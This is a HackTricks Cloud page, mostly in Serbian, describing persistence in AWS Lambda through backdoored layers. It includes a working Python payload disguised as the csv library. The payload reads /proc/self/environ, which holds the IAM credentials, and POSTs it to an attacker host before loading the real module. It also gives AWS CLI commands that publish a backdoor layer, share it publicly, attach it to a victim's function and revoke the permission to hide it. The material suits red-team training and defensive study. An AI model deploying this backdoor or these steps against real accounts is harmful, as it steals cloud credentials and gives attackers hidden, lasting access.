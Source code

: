 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

Lambda sloj je .zip datoteka koja **može sadržati dodatni kod** ili drugi sadržaj. Sloj može sadržati biblioteke, [prilagođeno izvršno okruženje](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), podatke ili konfiguracione datoteke.

Moguće je uključiti do **pet slojeva po funkciji**. Kada uključite sloj u funkciju, **sadržaj se ekstraktuje u `/opt`** direktorijumu u izvršnom okruženju.

Po **zadovoljstvu**, **slojevi** koje kreirate su **privatni** za vaš AWS nalog. Možete odlučiti da **podelite** sloj sa drugim nalozima ili da **napravite** sloj **javnim**. Ako vaše funkcije koriste sloj koji je objavio drugi nalog, vaše funkcije mogu **nastaviti da koriste verziju sloja nakon što je obrisana, ili nakon što vam je oduzeta dozvola za pristup sloju**. Međutim, ne možete kreirati novu funkciju ili ažurirati funkcije koristeći obrisanu verziju sloja.

Funkcije koje su implementirane kao kontejnerska slika ne koriste slojeve. Umesto toga, pakujete svoje omiljeno izvršno okruženje, biblioteke i druge zavisnosti u kontejnersku sliku kada gradite sliku.

### Python load path

Putanja učitavanja koju će Python koristiti u lambdi je sledeća:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Proverite kako **druga** i treća **pozicija** zauzimaju direktorijumi gde **lambda slojevi** raspakuju svoje datoteke: **`/opt/python/lib/python3.9/site-packages`** i **`/opt/python`**

{% hint style="danger" %}
Ako napadač uspe da **ubaci** zloćudni kod u korišćeni lambda **sloj** ili **doda jedan** koji će **izvršavati proizvoljan kod kada se učita uobičajena biblioteka**, moći će da izvrši zloćudni kod sa svakim pozivom lambda funkcije.
{% endhint %}

Stoga, zahtevi su:

* **Proverite biblioteke** koje su **učitane** kod žrtve
* Kreirajte **proxy biblioteku sa lambda slojevima** koja će **izvršavati prilagođeni kod** i **učitati originalnu** biblioteku.

### Učitane biblioteke

{% hint style="warning" %}
Kada se zloupotrebljava ova tehnika, naišao sam na poteškoću: Neke biblioteke su **već učitane** u python runtime kada se vaš kod izvršava. Očekivao sam da pronađem stvari poput `os` ili `sys`, ali **čak je i `json` biblioteka bila učitana**.\
Da bi se zloupotrebljavala ova tehnika postojanosti, kod mora da **učita novu biblioteku koja nije učitana** kada se kod izvršava.
{% endhint %}

Sa python kodom poput ovog moguće je dobiti **listu biblioteka koje su unapred učitane** unutar python runtime u lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
I ovo je **lista** (proverite da li su biblioteke poput `os` ili `json` već prisutne)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
I ovo je lista **biblioteka** koje **lambda uključuje instalirane po defaultu**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer Backdooring

U ovom primeru pretpostavimo da ciljani kod uvozi **`csv`**. Mi ćemo **napraviti backdoor za uvoz `csv` biblioteke**.

Da bismo to uradili, kreiraćemo direktorijum **csv** sa fajlom **`__init__.py`** u njemu na putanji koja se učitava od strane lambda: **`/opt/python/lib/python3.9/site-packages`**\
Zatim, kada se lambda izvrši i pokuša da učita **csv**, naš **`__init__.py` fajl će biti učitan i izvršen**.\
Ovaj fajl mora:

* Izvršiti naš payload
* Učitati originalnu csv biblioteku

Možemo uraditi oboje sa:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Zatim, kreirajte zip sa ovim kodom na putanji **`python/lib/python3.9/site-packages/__init__.py`** i dodajte ga kao lambda layer.

Ovaj kod možete pronaći na [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Integrisani payload će **poslati IAM kredencijale na server PRVI PUT kada se pozove ili NAKON resetovanja lambda kontejnera** (promena koda ili hladna lambda), ali **druge tehnike** kao što su sledeće takođe mogu biti integrisane:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Eksterni Layeri

Napomena da je moguće koristiti **lambda layer-e iz eksternih naloga**. Štaviše, lambda može koristiti layer iz eksternog naloga čak i ako nema dozvole.\
Takođe, napomena da je **maksimalan broj layer-a koje lambda može imati 5**.

Stoga, kako bi poboljšao svestranost ove tehnike, napadač bi mogao:

* Backdoor-ovati postojeći layer korisnika (ništa nije eksterno)
* **Kreirati** **layer** u **svojim nalogu**, dati **nalogu žrtve pristup** da koristi layer, **konfigurisati** **layer** u Lambda žrtve i **ukloniti dozvolu**.
* **Lambda** će i dalje moći da **koristi layer** i **žrtva neće** imati lak način da **preuzme kod layer-a** (osim ako ne dobije rev shell unutar lambda)
* Žrtva **neće videti eksterne layer-e** korišćene sa **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
